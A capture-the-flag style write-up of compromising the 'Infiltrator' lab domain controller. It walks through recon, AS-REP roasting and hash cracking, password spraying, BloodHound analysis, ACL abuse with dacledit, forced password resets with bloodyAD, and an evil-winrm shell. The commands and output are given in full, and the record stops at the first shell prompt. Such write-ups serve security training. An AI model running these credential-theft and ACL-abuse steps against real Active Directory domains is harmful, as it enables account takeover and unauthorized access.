

## 1. Recon

### 1.1. Port Scan `nmap`

```console
root@kali:~# nmap -Pn -A 10.10.11.31
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-18 20:33 +08
Nmap scan report for 10.10.11.31
Host is up (0.0053s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Infiltrator.htb
| http-methods:
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-18 12:18:49Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-12-18T12:20:13+00:00; -14m32s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-12-18T12:20:13+00:00; -14m32s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-12-18T12:20:13+00:00; -14m32s from scanner time.
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: infiltrator.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject:
| Subject Alternative Name: DNS:dc01.infiltrator.htb, DNS:infiltrator.htb, DNS:INFILTRATOR
| Not valid before: 2024-08-04T18:48:15
|_Not valid after:  2099-07-17T18:48:15
|_ssl-date: 2024-12-18T12:20:13+00:00; -14m32s from scanner time.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: INFILTRATOR
|   NetBIOS_Domain_Name: INFILTRATOR
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: infiltrator.htb
|   DNS_Computer_Name: dc01.infiltrator.htb
|   DNS_Tree_Name: infiltrator.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2024-12-18T12:19:34+00:00
|_ssl-date: 2024-12-18T12:20:13+00:00; -14m32s from scanner time.
| ssl-cert: Subject: commonName=dc01.infiltrator.htb
| Not valid before: 2024-07-30T13:20:17
|_Not valid after:  2025-01-29T13:20:17
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (89%)
Aggressive OS guesses: Microsoft Windows Server 2019 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-12-18T12:19:38
|_  start_date: N/A
|_clock-skew: mean: -14m31s, deviation: 0s, median: -14m32s

TRACEROUTE (using port 135/tcp)
HOP RTT     ADDRESS
1   5.23 ms 10.10.14.1
2   5.40 ms 10.10.11.31

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.32 seconds
```

The target machine appears to be a domain controller, let's add the hosts records to Kali:

```sh
cat << EOF >> /etc/hosts
10.10.11.31 infiltrator.htb
10.10.11.31 dc01.infiltrator.htb
EOF
```

## 2. Exploring

### 2.1. `445`

Attempting to check for low hanging fruit using `enum4linux` with empty username/password (not successful)

```console
root@kali:~# enum4linux infiltrator.htb
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Sun Dec 22 15:38:39 2024

 =========================================( Target Information )=========================================

Target ........... infiltrator.htb
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ==========================( Enumerating Workgroup/Domain on infiltrator.htb )==========================


[E] Can't find workgroup/domain


 ==============================( Nbtstat Information for infiltrator.htb )==============================

Looking up status of 10.10.11.31
No reply from 10.10.11.31

 ==================================( Session Check on infiltrator.htb )==================================


[+] Server infiltrator.htb allows sessions using username '', password ''


 ===============================( Getting domain SID for infiltrator.htb )===============================

Domain Name: INFILTRATOR
Domain Sid: S-1-5-21-2606098828-3734741516-3625406802

[+] Host is part of a domain (not a workgroup)


 =================================( OS information on infiltrator.htb )=================================


[E] Can't get OS info with smbclient


[+] Got OS info for infiltrator.htb from srvinfo:
do_cmd: Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED


 ======================================( Users on infiltrator.htb )======================================


[E] Couldn't find users using querydispinfo: NT_STATUS_ACCESS_DENIED


[E] Couldn't find users using enumdomusers: NT_STATUS_ACCESS_DENIED


 ================================( Share Enumeration on infiltrator.htb )================================

do_connect: Connection to infiltrator.htb failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
Unable to connect with SMB1 -- no workgroup available

[+] Attempting to map shares on infiltrator.htb


 ==========================( Password Policy Information for infiltrator.htb )==========================


[E] Unexpected error from polenum:


[+] Attaching to infiltrator.htb using a NULL share

[+] Trying protocol 139/SMB...

        [!] Protocol failed: Cannot request session (Called Name:INFILTRATOR.HTB)

[+] Trying protocol 445/SMB...

        [!] Protocol failed: SAMR SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.


[E] Failed to get password policy with rpcclient


 =====================================( Groups on infiltrator.htb )=====================================


[+] Getting builtin groups:


[+]  Getting builtin group memberships:


[+]  Getting local groups:


[+]  Getting local group memberships:


[+]  Getting domain groups:


[+]  Getting domain group memberships:


 =================( Users on infiltrator.htb via RID cycling (RIDS: 500-550,1000-1050) )=================


[E] Couldn't get SID: NT_STATUS_ACCESS_DENIED.  RID cycling not possible.


 ==============================( Getting printer info for infiltrator.htb )==============================

do_cmd: Could not initialise spoolss. Error was NT_STATUS_ACCESS_DENIED


enum4linux complete on Sun Dec 22 15:39:01 2024
```

### 2.2. `80`


Some names are found on the site, enclosed in `<h4>` tags in the html code:


### 2.3. Extract names from site and generate possible usernames

#### 2.3.1. Parsing and extracting names

Let's parse the html for `xpath`: `//div/div/h4`

> [!Note]
>
> The `-` instructs `xmllint` to take the input from `stdin`, which is piped from the `curl` command
>
> `xmllint` would complain about parsing errors at some part of the html document, `2> /dev/null` discards the errors to have a cleaner output

```console
root@kali:~# curl -s http://infiltrator.htb | xmllint --html --xpath //div/div/h4 - 2> /dev/null
<h4>Top Notch</h4>
<h4>Robust</h4>
<h4>Reliable</h4>
<h4>Up-to-date</h4>
<h4>Initial Work</h4>
<h4>Master Planning</h4>
<h4>Smooth Execution</h4>
<h4>.01 David Anderson</h4>
<h4>.02 Olivia Martinez</h4>
<h4>.03 Kevin Turner</h4>
<h4>.04 Amanda Walker</h4>
<h4>.05 Marcus Harris</h4>
<h4>.06 Lauren Clark</h4>
<h4>.07 Ethan Rodriguez</h4>
```

Place the relevant portion into `raw.txt`:

```sh
cat << EOF > raw.txt
<h4>.01 David Anderson</h4>
<h4>.02 Olivia Martinez</h4>
<h4>.03 Kevin Turner</h4>
<h4>.04 Amanda Walker</h4>
<h4>.05 Marcus Harris</h4>
<h4>.06 Lauren Clark</h4>
<h4>.07 Ethan Rodriguez</h4>
EOF
```

#### 2.3.2. Generate possible usernames using `awk`

##### 2.3.2.1. Parse `raw.txt` to get names only and output to `names.txt`

```sh
awk -F'>|<' '{print substr($3,5)}' raw.txt > names.txt
```

<details><summary><code>awk</code> command explanation</summary>

- `-F'>|<'`: Sets the **field separator** to split each line into fields using the characters `>` OR `<` as delimiters
- `{print substr($3,5)}`: action for `awk` to perform on each line:
  - `$3`: third field of the line, e.g. `<h4>.01 David Anderson</h4>` becomes `.01 David Anderson`
  - `substr($3,5)`: extracts a substring starting at the 5th character of `$3` (i.e. removes the numeric prefix `.01 `, `.02 `, etc.), leaving just the name like `David Anderson`

</details>

##### 2.3.2.2. Generate possible usernames

```sh
awk ' 
  {
    name = $0
    split(name, parts, " ")
    first = tolower(parts[1])
    last = tolower(parts[2])
    print first "." last "@infiltrator.htb" 
    print first "_" last "@infiltrator.htb"
    print substr(first, 1, 1) "." last "@infiltrator.htb"
    print substr(first, 1, 1) "_" last "@infiltrator.htb"
  }
' names.txt > usernames.txt
```

<details><summary><code>awk</code> command explanation</summary>

The `awk` command generates four different username formats for each line in `name.txt` and outputs them to `usernames.txt`.

**Preparing names format**:

- `{...}`: the code inside the curly braces defines the actions `awk` will perform on each line of the input (`name.txt`)
  - `name = $0`: `$0` in `awk` refers to the entire record (line), this is assigned to the variable `name`
  - `split(name, parts, " ")`: divides the `name` string into parts by spaces (`" "`); the result is stored in the array `parts`
    - `parts[1]` holds the first name (e.g. `David`)
    - `parts[2]` holds the last name (e.g. `Anderson`)
  - `first = tolower(parts[1])`: converts the first name (`parts[1]`) to lowercase
  - `last = tolower(parts[2])`: converts the last name (`parts[2]`) to lowercase

**Generating Email Variations**:

| Command | Explanation |
|---|---|
|`print first "." last "@infiltrator.htb"`|firstName.lastName@ first name joined with last name by a dot (`.`) e.g. `david.anderson@infiltrator.htb`|
|`print first "_" last "@infiltrator.htb"`|first name joined with last name by an underscore (`_`) e.g. `david_anderson@infiltrator.htb`|
|`print substr(first, 1, 1) "." last "@infiltrator.htb"`|first letter of first name (`substr(first, 1, 1)`) joined with last name by a dot (`.`) e.g. `d.anderson@infiltrator.htb`|
|`print substr(first, 1, 1) "_" last "@infiltrator.htb"`|first letter of first name (`substr(first, 1, 1)`) joined with last name by an underscore (`_`) e.g. `d_anderson@infiltrator.htb`|

</details>

> [!Tip]
>
> The syntax for [`substr`](https://www.gnu.org/software/gawk/manual/html_node/String-Functions.html#index-substr_0028_0029-function) is `substr(string, start [, length ])`
> - `string`: the string object to operate on
> - `start`: the nth character to start from
> - `length` _[optional]_: the length of characters to get; gets until the end of string if not present

##### 2.3.2.3. Output:

```console
root@kali:~# cat usernames.txt
david.anderson@infiltrator.htb
david_anderson@infiltrator.htb
d.anderson@infiltrator.htb
d_anderson@infiltrator.htb
olivia.martinez@infiltrator.htb
olivia_martinez@infiltrator.htb
o.martinez@infiltrator.htb
o_martinez@infiltrator.htb
kevin.turner@infiltrator.htb
kevin_turner@infiltrator.htb
k.turner@infiltrator.htb
k_turner@infiltrator.htb
amanda.walker@infiltrator.htb
amanda_walker@infiltrator.htb
a.walker@infiltrator.htb
a_walker@infiltrator.htb
marcus.harris@infiltrator.htb
marcus_harris@infiltrator.htb
m.harris@infiltrator.htb
m_harris@infiltrator.htb
lauren.clark@infiltrator.htb
lauren_clark@infiltrator.htb
l.clark@infiltrator.htb
l_clark@infiltrator.htb
ethan.rodriguez@infiltrator.htb
ethan_rodriguez@infiltrator.htb
e.rodriguez@infiltrator.htb
e_rodriguez@infiltrator.htb
```

## 3. Credential Access

### 3.1. [AS-REP Roasting](/notes/attacking-active-directory.md#1-as-rep-roasting)

#### 3.1.1. Use kerbrute to find users with preauthentication disabled

```console
root@kali:~# pipx install kerbrute
  installed package kerbrute 0.0.2, installed using Python 3.12.8
  These apps are now globally available
    - kerbrute
⚠️  Note: '/root/.local/bin' is not on your PATH environment variable. These apps will not be globally accessible until your PATH is updated. Run `pipx ensurepath` to automatically add it, or manually
    modify your PATH in your shell's config file (e.g. ~/.bashrc).
done! ✨ 🌟 ✨

root@kali:~# /root/.local/bin/kerbrute -users usernames.txt -domain infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Valid user => d.anderson@infiltrator.htb
[*] Valid user => o.martinez@infiltrator.htb
[*] Valid user => k.turner@infiltrator.htb
[*] Valid user => a.walker@infiltrator.htb
[*] Valid user => m.harris@infiltrator.htb
[*] Valid user => l.clark@infiltrator.htb [NOT PREAUTH]
[*] Valid user => e.rodriguez@infiltrator.htb
[*] No passwords were discovered :'(
```

#### 3.1.2. Use GetNPUsers to get password hashes

`l.clark@infiltrator.htb` identified by kerbrute to not have preauthentication enabled, let's use `GetNPUsers` to get the hash

```sh
root@kali:~# impacket-GetNPUsers infiltrator.htb/l.clark -no-pass -dc-ip dc01.infiltrator.htb -outputfile GetNPUsers.out
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Getting TGT for l.clark
$krb5asrep$23$l.clark@INFILTRATOR.HTB:392b84344073b27971826e9c498b3743$8b5c4ee1ae459ca3198ea968551976e621b051def64daaff0547d61544297af495ad05af527bf027589c27c4d6b16aeb930e37b7dbdc1bbefa556b6ed84d1560ececcf06f81bb1224c8b41f8f6e763fe403128e0d2116a1450380b2c21fd878664b0f474e4e7b8357c077c75bfc1f5d4d04cfb620d51d3ebb5200a6a5d0c34b277f51d5da89e9b304b88ea4f4ae016435aae7e13d8ca2e04ac79b9886e9e9ec51dabfb1490e4ed337c594a6a4350b2d08df5bf496647fccf4b2dc5fee1c9f48531b590aaa71cd7978af8f9b3c698a85d716a5268cacc8f92213677bf91ef9e18331cb08b7e780c0e40bc416559b59b7f1183
```

#### 3.1.3. Use hashcat to crack the hashes

Copy the hash `$krb5asrep$23$l.clark@INFILTRATOR.HTB:......` into a file `GetNPUsers.out`

```sh
root@kali:~# hashcat GetNPUsers.out /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-haswell-13th Gen Intel(R) Core(TM) i7-13700, 1438/2940 MB (512 MB allocatable), 4MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

18200 | Kerberos 5, etype 23, AS-REP | Network Protocol

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

$krb5asrep$23$l.clark@INFILTRATOR.HTB:f5e73aec9e3eb46c7d2e8e6b45bd2449$d5a2fee44714de3bd9053ed2d5508b2c6d87f5639e40d23f624fc1da9a2e3a45b6d404afabcf3dc27b5fb62010d93d1ecc6e108a668101b8041e4796120cdaa080a300a5ae01f6a2d8714e3588e1e94fc429431c8672f1e37c6850df83792e929b3635bd3f5c7a90e1aca1134477e1ceded7792eea172bc1843c6096c62f4636a770a73bc5bff86b4438db3473c9df28a8bd48c034f1800715c49b99185e2f37ede5a5f3a02d8e085d02a221f34466401fbc0c58cbbb0e16c5ed2a0ed28d5535af3f49736bb3525d6e8a9826a633295b5e8b88e180489cd8641d6c36b44c561db8c8386e8e99b35f88b22515b64b8cf97e25:WAT?watismypass!

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$l.clark@INFILTRATOR.HTB:f5e73aec9e3eb...f97e25
Time.Started.....: Mon Dec 23 12:07:22 2024 (5 secs)
Time.Estimated...: Mon Dec 23 12:07:27 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2081.7 kH/s (0.32ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10504192/14344385 (73.23%)
Rejected.........: 0/10504192 (0.00%)
Restore.Point....: 10503168/14344385 (73.22%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: WEBSHIT -> WASSUP85

Started: Mon Dec 23 12:06:58 2024
Stopped: Mon Dec 23 12:07:29 2024
```

Password for `l.clark` found: `WAT?watismypass!`

> [!Note]
>
> Hashcat is considerably fast for matching as-rep hashes compared to other password brute force operations
>
> ```
> root@kali:~# grep -n 'WAT?watismypass!' /usr/share/wordlists/rockyou.txt
> 10504133:WAT?watismypass!
> ```
>
> The password is at line number 10 mil+ of `rockyou.txt`, and the match was found in 30 seconds

#### 3.1.4.  Attempt connection to target

##### 3.1.4.1. [evil-winrm](https://wadcoms.github.io/wadcoms/Evil-WinRM/)

```console
root@kali:~# evil-winrm -i dc01.infiltrator.htb -u infiltrator.htb/l.clark -p WAT?watismypass!

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError

Error: Exiting with code 1
```

**Failed**: `WinRMAuthorizationError` - user likely not allowed to connect via WinRM

##### 3.1.4.2. [psexec](https://wadcoms.github.io/wadcoms/Impacket-PsExec/)

```console
root@kali:~# impacket-psexec "infiltrator.htb/l.clark:WAT?watismypass!"@dc01.infiltrator.htb cmd
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Requesting shares on dc01.infiltrator.htb.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'SYSVOL' is not writable.
```

**Failed**: no writable shares - user likely has no permissions on the "executable" shares

##### 3.1.4.3. [atexec](https://wadcoms.github.io/wadcoms/Impacket-atexec-Creds/)

```console
root@kali:~# impacket-atexec "infiltrator.htb/l.clark:WAT?watismypass!"@dc01.infiltrator.htb cmd
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[!] This will work ONLY on Windows >= Vista
[*] Creating task \ZqohwQMn
[-] rpc_s_access_denied
```

**Failed**: `rpc_s_access_denied` - user likely has no privilege

##### 3.1.4.4. [wmiexec](https://wadcoms.github.io/wadcoms/Impacket-WMIExec/)

```console
root@kali:~# impacket-wmiexec "infiltrator.htb/l.clark:WAT?watismypass!"@dc01.infiltrator.htb cmd
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[-] WMI Session Error: code: 0x80041003 - WBEM_E_ACCESS_DENIED
```

**Failed**: `WBEM_E_ACCESS_DENIED` - no permissions, again

##### 3.1.4.5. [dcomexec](https://wadcoms.github.io/wadcoms/Impacket-DCOMExec/)

```console
root@kali:~# impacket-dcomexec "infiltrator.htb/l.clark:WAT?watismypass!"@dc01.infiltrator.htb cmd
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] SMBv3.0 dialect used
[-] DCOM SessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
```

**Failed**: `E_ACCESSDENIED` - no permissions, again²

### 3.2. Password spraying

The `l.clark` account wasn't useful, let's check for password reuse on other accounts

Prepare the sAMAccountName list:

```sh
awk '
  {
    name = $0
    split(name, parts, " ")
    first = tolower(parts[1])
    last = tolower(parts[2])
    print substr(first, 1, 1) "." last
  }
' names.txt > samaccountnames.txt
```

Password spraying using `crackmapexec`

```console
root@kali:~# crackmapexec smb dc01.infiltrator.htb -u samaccountnames.txt -p 'WAT?watismypass!' -d infiltrator.htb
SMB         dc01.infiltrator.htb 445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\d.anderson:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\o.martinez:WAT?watismypass! STATUS_LOGON_FAILURE
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\k.turner:WAT?watismypass! STATUS_LOGON_FAILURE
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\a.walker:WAT?watismypass! STATUS_LOGON_FAILURE
SMB         dc01.infiltrator.htb 445    DC01             [-] infiltrator.htb\m.harris:WAT?watismypass! STATUS_ACCOUNT_RESTRICTION
SMB         dc01.infiltrator.htb 445    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass!
```

Received `STATUS_ACCOUNT_RESTRICTION` for users `d.anderson` and `m.harris` → this can mean that the password is valid, but the accounts may not have much access


## 4. Active Directory discovery: Bloodhound

Let's figure out if there are any viable lateral movement pathways

### 4.1. Generating bloodhound packages

```console
root@kali:~# bloodhound-python -d infiltrator.htb -u d.anderson -p 'WAT?watismypass!' -ns 10.10.11.31 -c all  --dns-tcp --zip
INFO: Found AD domain: infiltrator.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.infiltrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.infiltrator.htb
INFO: Found 14 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.infiltrator.htb
INFO: Done in 00M 02S
INFO: Compressing output into 20241224124349_bloodhound.zip
```

### 4.2. Checking pathway to Domain Admins

Nothing useful here


### 4.3. Checking anyone with DCSync rights

Nothing useful here either


### 4.4. Checking Kerberoastable accounts

Still, nothing useful here


### 4.5. Checking access pathways of known users

`l.clark` has zero reachable high value targets


Bingo! `d.anderson` has a pathway to `DC01` with `e.rodriguez` and `m.harris` in the pathway




## 5. Lateral movement

### 5.1. Generating TGT for `d.anderson`

Attempting to get TGT with `d.anderson` account resutled in `KRB_AP_ERR_SKEW(Clock skew too great)` error:

```console
root@kali:~# impacket-getTGT infiltrator.htb/d.anderson:'WAT?watismypass!' -dc-ip dc01.infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

Let's sync the time on Kali with the target

Install `ntpdate`: `apt -y install ntpdate`

Turns out the time on Kali was 885 seconds ahead of the target

```console
root@kali:~# ntpdate -q dc01.infiltrator.htb
2024-12-24 12:41:39.610084 (+0800) -885.953455 +/- 0.002572 dc01.infiltrator.htb 10.10.11.31 s1 no-leap
```

Disable NTP on Kali and sync the time with the target

```console
root@kali:~# timedatectl set-ntp 0

root@kali:~# ntpdate dc01.infiltrator.htb
2024-12-24 12:41:39.671106 (+0800) -885.953418 +/- 0.002733 dc01.infiltrator.htb 10.10.11.31 s1 no-leap
CLOCK: time stepped by -885.953418

root@kali:~# ntpdate -q dc01.infiltrator.htb
2024-12-24 12:41:39.736502 (+0800) -0.000016 +/- 0.002534 dc01.infiltrator.htb 10.10.11.31 s1 no-leap
```

`getTGT` works after the time sync

```console
root@kali:~# impacket-getTGT infiltrator.htb/d.anderson:'WAT?watismypass!' -dc-ip dc01.infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in d.anderson.ccache

root@kali:~# export KRB5CCNAME=d.anderson.ccache
```

### 5.2. Edit ACL of `MARKETING DIGITAL` to grant `Full Control` to `d.anderson`

- Utilize the `GenericAll` permissions to modify the ACL of the `MARKETING DIGITAL` OU
- This allows `d.anderson` full control on accounts in the OU, effectively bypassing any previous restrictions imposed on direct access

```console
root@kali:~# impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'd.anderson' -target-dn 'OU=MARKETING DIGITAL,DC=INFILTRATOR,DC=HTB' 'infiltrator.htb/d.anderson' -k -no-pass -dc-ip dc01.infiltrator.htb

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20241226-141003.bak
[*] DACL modified successfully!
```

### 5.3. Change password of `e.rodriguez`

With the full control permission that `d.anderson` now has on `MARKETING DIGITAL`, change the password for `e.rodriguez` to gain access to this account

> [!Tip]
>
> bloodyAD is used to perform specific LDAP calls to a domain controller for AD privesc
> 
> It supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc
>
> Install bloodyAD in Kali with `apt -y install bloodyAD`

```console
root@kali:~# bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb --dc-ip 10.10.11.31 -u d.anderson -k set password e.rodriguez Pass1234
[+] Password changed successfully!
```

### 5.4. Use `e.rodriguez` to `AddSelf` to `CHIEFS MARKETING`

#### 5.4.1. Generating TGT for e.rodriguez`

```console
root@kali:~# impacket-getTGT infiltrator.htb/e.rodriguez:Pass1234 -dc-ip dc01.infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in e.rodriguez.ccache

root@kali:~# export KRB5CCNAME=e.rodriguez.ccache
```

#### 5.4.2. Adding self to group

```console
root@kali:~# bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb --dc-ip 10.10.11.31 -u e.rodriguez -k add groupMember 'CN=CHIEFS MARKETING,CN=USERS,DC=INFILTRATOR,DC=HTB' e.rodriguez
[+] e.rodriguez added to CN=CHIEFS MARKETING,CN=USERS,DC=INFILTRATOR,DC=HTB
```

### 5.5. Change password of `m.harris`

```console
root@kali:~# bloodyAD --host dc01.infiltrator.htb -d infiltrator.htb --dc-ip 10.10.11.31 -u e.rodriguez -k set password m.harris Pass1234
[+] Password changed successfully!
```

### 5.6. Use `m.harris` to access `DC01`

#### 5.6.1. Generating TGT for m.harris`

```console
root@kali:~# impacket-getTGT infiltrator.htb/m.harris:Pass1234 -dc-ip dc01.infiltrator.htb
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in m.harris.ccache

root@kali:~# export KRB5CCNAME=m.harris.ccache
```

#### 5.6.2. Use `evil-winrm` to get a shell `DC01`

The KDC for `infiltrator.htb` could not be located:

```console
root@kali:~# evil-winrm -i dc01.infiltrator.htb -u m.harris -r infiltrator.htb

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: User is not needed for Kerberos auth. Ticket will be used

Info: Establishing connection to remote endpoint

Error: An error of type GSSAPI::GssApiError happened, message is gss_init_sec_context did not return GSS_S_COMPLETE: Unspecified GSS failure.  Minor code may provide more information
Cannot find KDC for realm "INFILTRATOR.HTB"


Error: Exiting with code 1
```

Create `/etc/krb5.conf` to point to `dc01.infiltrator.htb` as KDC

```sh
cat << EOF > /etc/krb5.conf
[libdefaults]
    default_realm = INFILTRATOR.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    forwardable = true
[realms]
    INFILTRATOR.HTB = {
        kdc = dc01.infiltrator.htb
        admin_server = dc01.infiltrator.htb
    }
[domain_realm]
    .infiltrator.htb = INFILTRATOR.HTB
    infiltrator.htb = INFILTRATOR.HTB
EOF
```

tah-dah:

```console
root@kali:~# evil-winrm -i dc01.infiltrator.htb -u m.harris -r infiltrator.htb

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Warning: User is not needed for Kerberos auth. Ticket will be used

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\M.harris\Documents> whoami
